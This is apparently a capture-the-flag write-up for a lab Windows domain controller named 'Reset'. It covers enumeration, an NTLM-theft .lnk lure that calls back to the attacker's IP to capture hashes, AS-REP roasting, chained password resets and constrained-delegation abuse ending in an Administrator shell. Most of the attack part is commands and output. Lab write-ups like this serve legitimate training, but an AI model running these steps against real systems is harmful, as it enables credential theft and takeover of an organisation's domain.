





# Reset

### Typology: _Windows_

---

We can start as always with nmap:
```bash
nmap -sCV -p- 10.10.250.218

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: thm.corp0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: thm.corp0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=HayStack.thm.corp
| Not valid before: 2024-01-25T21:01:31
|_Not valid after:  2024-07-26T21:01:31
| rdp-ntlm-info: 
|   Target_Name: THM
|   NetBIOS_Domain_Name: THM
|   NetBIOS_Computer_Name: HAYSTACK
|   DNS_Domain_Name: thm.corp
|   DNS_Computer_Name: HayStack.thm.corp
|   DNS_Tree_Name: thm.corp
|   Product_Version: 10.0.17763
|_  System_Time: 2024-01-27T15:49:21+00:00
|_ssl-date: 2024-01-27T15:50:00+00:00; +2s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
7680/tcp  open  tcpwrapped
9389/tcp  open  mc-nmf        .NET Message Framing
49668/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49681/tcp open  msrpc         Microsoft Windows RPC
49707/tcp open  msrpc         Microsoft Windows RPC
62271/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: HAYSTACK; OS: Windows; CPE: cpe:/o:microsoft:windows
```

We can do further research with `enum4linux-ng`
```bash
enum4linux-ng.py -A 10.10.250.218

ENUM4LINUX - next generation (v1.3.1)
 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 10.10.250.218
[*] Username ......... ''
[*] Random Username .. 'bqidquze'
[*] Password ......... ''
[*] Timeout .......... 5 second(s)

 =====================================
|    Listener Scan on 10.10.250.218    |
 =====================================
[*] Checking LDAP
[+] LDAP is accessible on 389/tcp
[*] Checking LDAPS
[+] LDAPS is accessible on 636/tcp
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp

 ====================================================
|    Domain Information via LDAP for 10.10.250.218    |
 ====================================================
[*] Trying LDAP
[+] Appears to be root/parent DC
[+] Long domain name is: thm.corp

 ===========================================================
|    NetBIOS Names and Workgroup/Domain for 10.10.250.218    |
 ===========================================================
[-] Could not get NetBIOS names information via 'nmblookup': timed out

 =========================================
|    SMB Dialect Check on 10.10.250.218    |
 =========================================
[*] Trying on 445/tcp
[+] Supported dialects and settings:
Supported dialects:                                                                                                                                                                                                                         
  SMB 1.0: false                                                                                                                                                                                                                            
  SMB 2.02: true                                                                                                                                                                                                                            
  SMB 2.1: true                                                                                                                                                                                                                             
  SMB 3.0: true                                                                                                                                                                                                                             
  SMB 3.1.1: true                                                                                                                                                                                                                           
Preferred dialect: SMB 3.0                                                                                                                                                                                                                  
SMB1 only: false                                                                                                                                                                                                                            
SMB signing required: true                                                                                                                                                                                                                  

 ===========================================================
|    Domain Information via SMB session for 10.10.250.218    |
 ===========================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found domain information via SMB
NetBIOS computer name: HAYSTACK                                                                                                                                                                                                             
NetBIOS domain name: THM                                                                                                                                                                                                                    
DNS domain: thm.corp                                                                                                                                                                                                                        
FQDN: HayStack.thm.corp                                                                                                                                                                                                                     
Derived membership: domain member                                                                                                                                                                                                           
Derived domain: THM                                                                                                                                                                                                                         

 =========================================
|    RPC Session Check on 10.10.250.218    |
 =========================================
[*] Check for null session
[+] Server allows session using username '', password ''
[*] Check for random user
[+] Server allows session using username 'bqidquze', password ''
[H] Rerunning enumeration with user 'bqidquze' might give more results

 ===================================================
|    Domain Information via RPC for 10.10.250.218    |
 ===================================================
[+] Domain: THM
[+] Domain SID: S-1-5-21-1966530601-3185510712-10604624
[+] Membership: domain member

 ===============================================
|    OS Information via RPC for 10.10.250.218    |
 ===============================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Could not get OS info via 'srvinfo': STATUS_ACCESS_DENIED
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016                                                                                                                                                                                    
OS version: '10.0'                                                                                                                                                                                                                          
OS release: '1809'                                                                                                                                                                                                                          
OS build: '17763'                                                                                                                                                                                                                           
Native OS: not supported                                                                                                                                                                                                                    
Native LAN manager: not supported                                                                                                                                                                                                           
Platform id: null                                                                                                                                                                                                                           
Server type: null                                                                                                                                                                                                                           
Server type string: null                                                                                                                                                                                                                    
 =====================================
|    Users via RPC on 10.10.250.218    |
 =====================================
[*] Enumerating users via 'querydispinfo'
[-] Could not find users via 'querydispinfo': STATUS_ACCESS_DENIED
[*] Enumerating users via 'enumdomusers'
[-] Could not find users via 'enumdomusers': STATUS_ACCESS_DENIED

 ======================================
|    Groups via RPC on 10.10.250.218    |
 ======================================
[*] Enumerating local groups
[-] Could not get groups via 'enumalsgroups domain': STATUS_ACCESS_DENIED
[*] Enumerating builtin groups
[-] Could not get groups via 'enumalsgroups builtin': STATUS_ACCESS_DENIED
[*] Enumerating domain groups
[-] Could not get groups via 'enumdomgroups': STATUS_ACCESS_DENIED

 ======================================
|    Shares via RPC on 10.10.250.218    |
 ======================================
[*] Enumerating shares
[+] Found 0 share(s) for user '' with password '', try a different user

 =========================================
|    Policies via RPC for 10.10.250.218    |
 =========================================
[*] Trying port 445/tcp
[-] SMB connection error on port 445/tcp: STATUS_ACCESS_DENIED
[*] Trying port 139/tcp
[-] SMB connection error on port 139/tcp: session failed

 =========================================
|    Printers via RPC for 10.10.250.218    |
 =========================================
[-] Could not get printer info via 'enumprinters': STATUS_ACCESS_DENIED

```

Summarize ports:

| **_Port_** |                                         **_Description_**                                        |
|:----------:| ------------------------------------------------------------------------------------------------ |
| Port 53    | DNS service|
| Port 135, 593   | RPC sercive |
| Port 139, 445   | SMB service, it allows anonymous login |
| Port 636, 3268, 3269 | LDAP service|
| Port 3389 | RDP service |
| Port 5985 | Winrm service |
| Port 7680 | Windows Update Delivery Optimization, share update to other windows machine in LAN |
| Port 49668-62271 | RPC dynamic ports |

Summarize information:

1. DNS service with `dig` command it returns nothing

2. RPC service with `rpcdump.py` tool it returns interesting

3. SMB service allows anonymous login

4. We can add to `/etc/hosts` the following lines:HAYSTACK, THM, thm.corp, HayStack.thm.corp

### SMB anonymous login:

First thing we can check is the SMB service so:
```bash
smbmap -u "anonymous" -p "" -H 10.10.250.218 -r --depth 2

        ./Data
        dr--r--r--                0 Fri Feb  9 14:07:34 2024    .
        dr--r--r--                0 Fri Feb  9 14:07:34 2024    ..
        dr--r--r--                0 Fri Feb  9 14:07:35 2024    onboarding
        ./Data/onboarding
        dr--r--r--                0 Fri Feb  9 14:07:35 2024    .
        dr--r--r--                0 Fri Feb  9 14:07:35 2024    ..
        fr--r--r--              521 Mon Aug 21 20:22:04 2023    h2zvisya.dt4.txt
        fr--r--r--          3032659 Mon Aug 21 20:21:07 2023    ha0j2quo.kzn.pdf
        fr--r--r--          4700896 Mon Aug 21 20:21:07 2023    va2bomcn.12p.pdf
```
We can download it with the following command:
```bash
smbget --recursive  smb://10.10.250.218/Data

smb://10.10.250.218/Data/onboarding/gnnezyae.rzy.txt                              
smb://10.10.250.218/Data/onboarding/iutvpcfm.2rv.pdf
smb://10.10.250.218/Data/onboarding/lkcaxb4p.exw.pdf
```
> The filenames are changed, very strange...

The two .pdf file are useless while the .txt:

```txt
Subject: Welcome to Reset Dear <USER>,
Welcome aboard! We are thrilled to have you join our team. As discussed during the hiring process, we are sending you the necessary login information to access your company account. 
Please keep this information confidential and do not share it with anyone.
The initial passowrd is: <REDACTED> We are confident that you will contribute significantly to our continued success. 
We look forward to working with you and wish you the very best in your new role.
Best regards,The Reset Team
```
It's an email with a password inside, we could a password spraying but without a valid userlist it will requires a lot.

### NTML Theft:

> Before returning to the SMB service, I tried tools such as: GetUserSPNs.py and GetNPUsers.py, they return some accounts with hashes but some of them cannot be cracked quickly or give back users that are currently not useful. we will see...

We can do further research on the SMB shares indeed we have:

- Write rights

- Every access the filename changed such as there is a user activity

Quick search on [Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb#ntlm-theft) talks about NTLM theft, additional research lead to this [tool](https://github.com/Greenwolf/ntlm_theft/tree/master) to generate malicious file in order to retrieve NTLM hash so:
```bash
pip3 install xlsxwriter

git clone https://github.com/Greenwolf/ntlm_theft.git
cd ntlm_theft

python3 ntlm_theft.py -g lnk -s <your_ip> -f <name output folder>
```
> I tried some extensions before to find the right one

We start responder:
```bash
sudo responder -I <net_interface>
```
Then we upload it on the smbshare:
```bash
smbclient  \\\\10.10.250.218\\Data

cd onboarding
put test.lnk
```
After some minute on the responder output we can see



We can copy it and crack it via Jhon:



We can login via Winrm and retrieve the user flag

### LDAP and Bloodhund:

We have valid credentials to get a better view on the AD target we should use `ldapdomaindump`:
```bash
ldapdomaindump 10.10.250.218  -u 'haystack.thm.corp\AUTOMATE' -p '<REDACTED>'  --no-json --no-grep -o ./<name folder>
```
Inside the output folder will be six .html files, we can open it in a browser and retrieve interesting informations:






Summarize:

- LEANN_LONG, ERNESTO_SILVA and TABATHA_BRITT have the flag DONT_REQ_PREAUTH

- DARLA_WINTERS has the flag TRUSTED_TO_AUTH_FOR_DELEGATION

Before to retrieve hash or anything else we can investigate more with the tool `Bloodhound.py`:

> I had already retrieved it, but trying again with the methodology that follows everything makes more sense than trying random things

```bash
git clone https://github.com/dirkjanm/BloodHound.py.git

cd BloodHound.py

bloodhound-python -ns 10.10.250.218 --dns-tcp -d THM.CORP -u 'automate' -p '[REDACTED]' -c All --zip
```
It will dump everything and create a .zip, we must pass to real bloodhund, you can install it with the following commands:
```bash 
curl -o docker-compose.yml https://raw.githubusercontent.com/SpecterOps/bloodhound/main/examples/docker-compose/docker-compose.yml && sudo docker-compose -f docker-compose.yml up
```
Then go to `http://localhost:8080/ui/login-> Creds (admin:password_prompt_during_the_first_boot)-> change the password-> re-enter-> and upload the .zip`

__By redoing the machine, bloodhound does not allow it to be opened with problems from the docker itself even though everything had gone well the time before__

We can select `Pathfinding` and we select every user with flag `DONT_REQ_PREAUTH` to `Administrator` and we can an interestin information:

`TABATHA_BRITT has generic_all to SHAWNA_BRAY in turn she has forcechangepassword to CRUZ_HALL in turn he has generic_write to DARLA_WiNTERS that she has TRUSTED_TO_AUTH_FOR_DELEGATION more specific Constrained Delegation with protocol`

### Privesc:

We can use this situation to our advantage, first we retrieve TABATHA_BRITTs' hash and then with a simple move we can change the passwords of SHAWNA_BRAY, CRUZ_HALL and DARLA_WINTERS users finally with the delegation we can impersonate the administrator so:

First we retrieve TABATHA's hash:
```bash
GetNPUsers.py thm.corp/AUTOMATE 

Name           MemberOf                                                      PasswordLastSet             LastLogon                   UAC      
-------------  ------------------------------------------------------------  --------------------------  --------------------------  --------
ERNESTO_SILVA  CN=Gu-gerardway-distlist1,OU=AWS,OU=Stage,DC=thm,DC=corp      2023-07-18 18:21:44.224354  <never>                     0x410200 
TABATHA_BRITT  CN=Gu-gerardway-distlist1,OU=AWS,OU=Stage,DC=thm,DC=corp      2023-08-21 22:32:59.571306  2023-08-21 22:32:05.792734  0x410200 
LEANN_LONG     CN=CH-ecu-distlist1,OU=Groups,OU=OGC,OU=Stage,DC=thm,DC=corp  2023-07-18 18:21:44.161807  2023-06-16 14:16:11.147334  0x410200
```
We can now retrieve TABATHA:
```bash
GetNPUsers.py 'thm.corp/TABATHA_BRITT' -no-pass
```


We enter via RDP with the following command:
```bash
xfreerdp /v:10.10.250.218 /u:TABATHA_BRITT /p:'<REDACTED>' /dynamic-resolution
```
We open powershell and prompt this command:
```powershell
$Password = ConvertTo-SecureString "<new_password" -AsPlainText -Force
Set-ADAccountPassword -Identity "SHAWNA_BRAY" -Reset -NewPassword $Password
```
If we use another time RDP we can enter with SHAWNA_BRAY:
```bash
xfreerdp /v:10.10.250.218 /u:SHAWNA_BRAY /p:'<REDACTED>'/dynamic-resolution
```
We can do the same steps go as far as to reach DARLA_WiNTERS' user indeed after gain the access to DARLA_WiNTERS first we enumerate the delegation:
```bash
findDelegation.py 'thm.corp/DARLA_WiNTERS'

DARLA_WINTERS  Person       Constrained w/ Protocol Transition  cifs/HayStack.thm.corp/thm.corp 
DARLA_WINTERS  Person       Constrained w/ Protocol Transition  cifs/HayStack.thm.corp          
DARLA_WINTERS  Person       Constrained w/ Protocol Transition  cifs/HAYSTACK                   
DARLA_WINTERS  Person       Constrained w/ Protocol Transition  cifs/HayStack.thm.corp/THM      
DARLA_WINTERS  Person       Constrained w/ Protocol Transition  cifs/HAYSTACK/THM  
```
Then we can exploit with the following commands:
```bash
getST.py -k -dc-ip 10.10.250.218 -impersonate Administrator -spn cifs/HayStack.thm.corp thm.corp/DARLA_WINTERS
export KRB5CCNAME=Administrator.ccache
```
> getST and findDelegation are from impackets suite.

Finally we can gain a shell with the command below:
```bash
wmiexec.py THM.CORP/Administrator@HayStack.thm.corp -k -no-pass
```
We can retrieve the final flag.